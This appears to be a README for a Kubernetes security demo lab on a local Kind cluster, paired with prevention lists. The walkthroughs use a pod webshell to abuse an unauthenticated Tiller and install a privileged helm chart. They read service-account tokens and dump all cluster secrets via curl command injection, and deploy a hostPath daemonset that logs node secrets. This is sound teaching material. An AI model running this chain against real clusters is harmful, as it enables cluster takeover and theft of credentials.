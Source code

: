 # Kubernetes Security Demos

## Install Kind

See: [installing Kind](https://kind.sigs.k8s.io/docs/user/quick-start/)

```console
kind version
```

should return with this version or later:
```console
kind v0.6.1 go1.13.4 darwin/amd64
```

## Create Kind Demo Cluster

Use kind to create the customized cluster:

```console
kind create cluster --config=kind/cluster.yaml --name=demo --image=docker.io/kindest/node:v1.16.3@sha256:70ce6ce09bee5c34ab14aec2b84d6edb260473a60638b1b095470a3a0f95ebec
```

Install Calico for `NetworkPolicy` support:

```console
kubectl apply -f kind/calico.yaml
```

Verifying the cluster is ready:

```console
kubectl get pods -A
```

Should show:

```console
NAMESPACE     NAME                                         READY   STATUS    RESTARTS   AGE
kube-system   calico-kube-controllers-778676476b-c2g4p     1/1     Running   0          54s
kube-system   calico-node-db4hq                            1/1     Running   0          54s
kube-system   calico-node-r6wfn                            1/1     Running   0          54s
kube-system   coredns-5644d7b6d9-579wk                     1/1     Running   0          31m
kube-system   coredns-5644d7b6d9-8mw2j                     1/1     Running   0          31m
kube-system   etcd-demo-control-plane                      1/1     Running   0          30m
kube-system   kube-apiserver-demo-control-plane            1/1     Running   0          30m
kube-system   kube-controller-manager-demo-control-plane   1/1     Running   0          30m
kube-system   kube-proxy-fwg7z                             1/1     Running   0          31m
kube-system   kube-proxy-knpph                             1/1     Running   0          31m
kube-system   kube-scheduler-demo-control-plane            1/1     Running   0          30m
```

## Demo 1: Compromise of a Public-Facing Pod

### Description

This scenario demonstrates the potential for privilege escalation and lateral movement as a result of a pod compromise in a Kubernetes cluster with commonly-found configurations leading to full cluster access.

### Steps

#### Preparation

```console
kubectl apply -f demo1/installation.yaml
```

#### Exploitation

1. Create a local proxy to reach the "exposed" `dashboard` service:

```console
kubectl port-forward service/dashboard 8080:8080
```

2. Visit the `dashboard` by opening [http://localhost:8080](http://localhost:8080).
3. Navigate to [/webshell](http://localhost:8080/webshell) and provide the basic auth credentials.  Explain that arriving at this point is multi-faceted (backdoored software library, application vulnerability resulting in remote-code execution, etc).
4. Now at a shell inside the `dashboard` pod, perform a few commands like `id` and `hostname` and `env` to know we're in a Kubernetes cluster.
5. Download and run `kubectl`:

```console
export PATH=/tmp:$PATH
cd /tmp; curl -LO https://storage.googleapis.com/kubernetes-release/release/`curl -s https://storage.googleapis.com/kubernetes-release/release/stable.txt`/bin/linux/amd64/kubectl; chmod +x kubectl
```

6. Enumerate the `tiller` deployment running in `kube-system`

```console
curl -v tiller-deploy.kube-system:44134
```
7. Download the `helm` client binary and run `helm ls`.

```console
cd /tmp; curl -so helm.tar.gz https://get.helm.sh/helm-v2.16.1-linux-amd64.tar.gz; tar zxvf helm.tar.gz; chmod +x linux-amd64/helm; cp linux-amd64/helm .
```

```console
helm version --host=tiller-deploy.kube-system:44134
```

```console
export HELM_HOST=tiller-deploy.kube-system:44134; helm ls
```

8. `helm install` a privileged/hostpath deployment via helm chart.

```console
curl -sLO https://github.com/bgeesaman/nginx-test/archive/v1.0.0.tar.gz
```

```console
helm install v1.0.0.tar.gz
```

9. Find/access the webshell with `curl` and run commands in the privileged pod as `cluster-admin` 

Get the newly created pod's service account token.  The helm chart bound it to `cluster-admin` during installation.

```console
curl -XPOST -d "cmd=cat /var/run/secrets/kubernetes.io/serviceaccount/token" nginx-test.default:8080
```

Run `kubectl get secrets --all-namespaces` using the pod's mounted service account token as `cluster-admin`:

```console
curl -XPOST -d "cmd=kubectl get secrets -A" nginx-test.default:8080
```

Run `kubectl get secrets --all-namespaces -o yaml` using the pod's mounted service account token as `cluster-admin`:

```console
curl -XPOST -d "cmd=kubectl get secrets -A -o yaml" nginx-test.default:8080
```

### Prevention

* Container vulnerability scanning
* Admission control disallowing vulnerable container images
* Admission control disallowing container images from non-trusted container registries
* Admission control disallowing privileged/hostpath pods
* Network policy preventing egress from the web pod
* Network policy prevening ingress to the tiller pod
* TLS Auth on Tiller or upgrade Tiller to v3

## Demo 2: Compromise of a Developer's Limited Cluster Access

### Description

This scenario demonstrates the potential for privilege escalation and network policy bypass by a malicious insider or compromise of their credentials with the ability to create pods in a namespace leading to full cluster access.

### Steps

#### Preparation

```console
kubectl apply -f demo1/installation.yaml # To ensure Tiller is installed
kubectl apply -f demo2/installation.yaml # SA, RBAC, and network policy
```

### Exploitation (Method 1)

1. Show access to the `default` namespace but not to `kube-system` to create pods.
2. Run a `kubectl apply -f demo2/hostnetwork.yaml` to deploy a host network pod that bypasses network egress policy on the namespace.
3. Download the `helm` client binary and run `helm ls` to show that it can control Tiller.

### Exploitation (Method 2)

1. Show access to the `default` namespace but not to `kube-system` to create pods.

```console
kubectl auth can-i -n kube-system create pods
kubectl auth can-i -n default create pods
```


2. Deploy the host path daemonset that reads all mounted secrets contents from all nodes into stdout

```console
kubectl apply -f demo2/daemonset.yaml
```

3. Read the secrets in stdout.

```console
kubectl logs -f daemonset/secret-logger --all-containers=true --since=1m
```

4. Cleanup

```console
kubectl delete -f demo2/daemonset.yaml
```

### Prevention

* Container vulnerability scanning
* Admission control disallowing vulnerable container images
* Admission control disallowing container images from non-trusted container registries
* Admission control disallowing host network/privileged/hostpath pods
* Network policy prevening ingress to the tiller pod
* TLS Auth on Tiller or upgrade Tiller to v3
* Audit logging for all activities to find RBAC failures for uncommon commands.

## Cleanup

```console
kubectl delete -f demo1/pod.yaml
kubectl delete -f demo1/installation.yaml
kubectl delete -f demo2/hostnetwork.yaml
kubectl delete -f demo2/daemonset.yaml
kubectl delete -f demo2/installation.yaml
```

```console
kind delete cluster --name=demo
```
